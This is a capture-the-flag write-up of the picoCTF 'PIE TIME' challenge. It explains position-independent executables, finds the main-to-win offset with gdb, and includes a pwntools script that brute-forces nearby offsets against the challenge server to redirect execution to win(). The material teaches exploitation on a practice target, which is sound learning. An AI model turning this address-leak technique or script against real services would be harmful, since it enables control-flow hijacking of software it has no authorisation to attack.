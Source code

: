 ```yaml
---
icon: material/memory
---
```


# PIE TIME

**Difficulty**: :fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

## Objective

!!! question "Description"
    Can you try to get the flag? Beware we have PIE!

## Hints

??? tip "Hint 1"
    Can you figure out what changed between the address you found locally and in the server output?

## Solution

When we start the instance for this challenge, we are given a copy of the [source code](./assets/vuln.c) and the [binary](./assets/vuln) as well as a `netcat` command to connect to the remote service. Based off the title and description of this challenge, we can assume PIE stands for **P**osition **I**ndependent **E**xecutable. This is a security mechanism that works by doing a few things:

    1.  Randomizes the base memory address of an executable each time it runs
    2.  Makes the program's code and data load at random memory locations
    3.  Works as part of ASLR (Address Space Layout Randomization)

PIE is a common security feature that is meant to make buffer overflow attacks and other memory corruption exploits significantly more difficult by making it more difficult to predict where vulnerable code will be located in memory.<br/>
<br/>
Let's open up our version of the source code. I'm using VS Code & VSCodium to review it. There are three main functions:
    -   `main()`- The entry point
    -   `win()`- A function that reads and prints the flag
    -   `segfault_handler()`- Handles segmentation faults

When executed, the program prints the address of the `main` function: `printf("Address of main: %p\n", &main);`<br/>
It then prompts the user to input a memory address in hexadecimal and attempts to jump to that address to execute any code found there.

```bash title="Local execution" linenums="1"
# make the program executable
chmod +x vuln

# execute the program
./vuln
```
![start](./img/1/multiple-starts.png)
caption ///
PIE means that each time the code is executed, `main` should be somewhere new.
///

Now the challenge is to figure out how to determine the address of the `win()` funtion on line 11:

```c title="win() function" linenums="11"
int win() {
  FILE *fptr;
  char c;
```

One way we can do this is to determine the offset between `main()` and `win()`. While PIE randomizes the absolute addresses each run, the relative distance between different functions remain the same. If we can determine the offset between `main()` and `win()` we are then able to calculate the location of `win()` when given the location of `main()`.<br/>
<br/>
Since the location of `main` is provided all we need to do is figure out the address of `win`. To do that I used `gdb`, a debugger that is typically available on Unix-like machines. From the command line enter `gdb ./vuln`<br/>

![Location](./img/1/start.png)
/// caption
Use the `print` function to show the location of `win` and `main`.
///

When I printed the location of `win`, I noticed the difference in what was provided and what was given for `main` by the program so I used `print` to get the location of `main` as well so that it would be easier to calculate the offset. <br/>
<br/>
To calculate the offset, subtract the value of `win` from `main`: `main` - `win` = `0x1284` - `0x11e6` = `0x9E` (158 bytes). This means that when the program provides the exact location of `main`, we should be able to subtract `0x9E` from the provided address to get the address of `win`, which can be inputed to get the flag.<br/>
<br/>
Exit `gdb` and run the executable again, subtract the `0x9E` from the value provided and input it to test. <br/>

![test](./img/1/dummy-flag.png)
/// caption
The  test works locally
///

The address of `main` is provided as `0x5640A5BB6284`. Subtracting `0x9E` results in `0x5640A5BB61E6`.

!!! info "Hexadecimal arithmetic"
    If you are not already familiar, hexadecimal arithmetic involves converting the hexidecimal number into decimal form, perfoming the mathmatical function, then converting back to hexadecimal. [CyberChef](https://cyberchef.org/) is a free online tool that can be used for easy conversion. For this problem:

    -   Convert `0x9E` to decimal:
        0x9E = 158
    -   Convert `0x5640A5BB6284` to decimal:
        0x5640A5BB6284 = 377441309948292
    -   subtract 377441309948292 - 158 = 377441309948134.
    -   Convert 377441309948134 to hexadecimal 
        377441309948134 = 0x5640A5BB61E6

It looks like it works, so lets use `netcat` to connect to the server and try the same thing.

![failed](./img/1/failed.png)
/// caption
Hmm... That was supposed to work.
///

Well, that's disappointing. After spending some time trying to figure out how I messed up, I wrote a script using `pwntools` to test a small range around the offset I had found locally.<br/>

```python title="solve.py"
#!/usr/bin/env python3
from pwn import *
import re

context.log_level = 'info'

REMOTE = "rescued-float.picoctf.net"
PORT = <input provided port>

def try_offset(offset):
    conn = remote(REMOTE, PORT)
    try:
        line = conn.recvline().decode().strip()
        main_addr_match = re.search(r"Address of main: (0x[0-9a-fA-F]+)", line)
        if not main_addr_match:
            conn.close()
            return False
        main_addr = int(main_addr_match.group(1), 16)
        win_addr = main_addr - offset
        conn.sendline(hex(win_addr).encode())
        conn.recvline()
        try:
            result = conn.recvline().decode().strip()
            if "You won" in result:
                flag = conn.recvline().decode().strip()
                log.success(f"Offset {hex(offset)} worked. Flag: {flag}")
                conn.close()
                return True
            else:
                conn.close()
                return False
        except EOFError:
            log.warning(f"EOFError during recvline. Offset: {hex(offset)}")
            conn.close()
            return False

    except Exception as e:
        log.error(f"Error: {e}")
        conn.close()
        return False

def main():
    base_offset = 0x9E
    for i in range(-10, 11):
        offset = base_offset + i
        if try_offset(offset):
            return
    log.failure("Failed to find the correct offset.")

if __name__ == "__main__":
    main()
```

!!! success "Answer"
    Find the offset locally, then explore a small area of memory remotely to find the correct location of the `win()` function.